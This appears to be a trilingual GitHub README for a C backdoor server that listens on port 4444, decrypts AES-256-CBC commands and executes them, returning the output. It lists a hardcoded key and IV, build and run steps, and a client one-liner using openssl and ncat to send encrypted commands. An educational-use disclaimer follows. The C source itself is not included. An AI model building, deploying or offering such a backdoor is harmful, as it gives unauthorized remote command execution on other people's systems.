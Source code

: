 # 🔐 Backdoor AES-256-CBC via OpenSSL + Ncat

Servidor TCP escrito em C que recebe comandos criptografados com AES-256-CBC e os executa, retornando a saída ao cliente.

---

## 📌 Português

### ⚙️ Como funciona:
1. Cliente envia um comando criptografado com AES-256-CBC (base64).
2. Servidor recebe, decifra e executa o comando.
3. A resposta é enviada de volta via TCP.

### 🔐 Parâmetros:
- **Chave (KEY):** `00112233445566778899aabbccddeeff00112233445566778899aabbccddeeff`
- **IV:** `0102030405060708090a0b0c0d0e0f10`
- **Porta:** `4444`

### ▶️ Executando o servidor:
```bash
gcc aes_server.c -o servidor
./servidor
```

### 💻 Cliente (Linux):
```bash
KEY="00112233445566778899aabbccddeeff00112233445566778899aabbccddeeff"
IV="0102030405060708090a0b0c0d0e0f10"
echo -n "whoami" | openssl enc -aes-256-cbc -a -K $KEY -iv $IV | ncat <IP_DO_SERVIDOR> 4444
```

---

## 📌 English

### ⚙️ How it works:
1. Client encrypts a command using AES-256-CBC (base64 output).
2. Server receives, decrypts, and executes the command.
3. The output is returned via TCP.

### 🔐 Parameters:
- **Key (KEY):** `00112233445566778899aabbccddeeff00112233445566778899aabbccddeeff`
- **IV:** `0102030405060708090a0b0c0d0e0f10`
- **Port:** `4444`

### ▶️ Running the server:
```bash
gcc aes_server.c -o server
./server
```

### 💻 Client (Linux):
```bash
KEY="00112233445566778899aabbccddeeff00112233445566778899aabbccddeeff"
IV="0102030405060708090a0b0c0d0e0f10"
echo -n "whoami" | openssl enc -aes-256-cbc -a -K $KEY -iv $IV | ncat <SERVER_IP> 4444
```

---

## 📌 العربية

### ⚙️ كيف يعمل:
1. يقوم العميل بتشفير الأمر باستخدام AES-256-CBC (بصيغة base64).
2. يستقبل الخادم الأمر، ويفك تشفيره، ثم ينفذه.
3. يتم إرسال الناتج عبر اتصال TCP إلى العميل.

### 🔐 المعلمات:
- **المفتاح (KEY):** `00112233445566778899aabbccddeeff00112233445566778899aabbccddeeff`
- **IV:** `0102030405060708090a0b0c0d0e0f10`
- **المنفذ (Port):** `4444`

### ▶️ تشغيل الخادم:
```bash
gcc aes_server.c -o الخادم
./الخادم
```

### 💻 العميل (لينكس):
```bash
KEY="00112233445566778899aabbccddeeff00112233445566778899aabbccddeeff"
IV="0102030405060708090a0b0c0d0e0f10"
echo -n "whoami" | openssl enc -aes-256-cbc -a -K $KEY -iv $IV | ncat <IP_الخادم> 4444
```

---

## ⚠️ AVISO LEGAL | LEGAL DISCLAIMER | ⚠️ إخلاء المسؤولية

### 🇧🇷 Português
Este projeto é fornecido **exclusivamente para fins educacionais** e de **pesquisa em segurança cibernética**.  
Ele deve ser utilizado **somente em ambientes controlados**, como laboratórios, máquinas virtuais ou redes isoladas.  
**Nunca execute este código em sistemas reais sem autorização explícita do proprietário.**  
O autor **não se responsabiliza por qualquer uso indevido** desta ferramenta.

### 🇺🇸 English
This project is provided **for educational and cybersecurity research purposes only**.  
It is intended to be used **only in controlled environments**, such as labs, virtual machines, or isolated networks.  
**Do not run this code on real systems without explicit permission from the owner.**  
The author **is not responsible for any misuse** of this tool.

### 🇸🇦 العربية
يُقدَّم هذا المشروع **لأغراض تعليمية وبحثية فقط** في مجال الأمن السيبراني.  
يُمنع استخدامه إلا في **بيئات معزولة ومسيطر عليها** مثل المختبرات أو الأجهزة الافتراضية.  
**لا يجوز تشغيل هذا الكود على أنظمة حقيقية دون إذن صريح من مالك النظام.**  
المؤلف **غير مسؤول عن أي استخدام خاطئ** لهذه الأداة.

---

## 👤 Autor

Desenvolvido por **Rafael Medeiros**  
🌐 [alby.technology](https://alby.technology)  
🇧🇷 🇦🇪
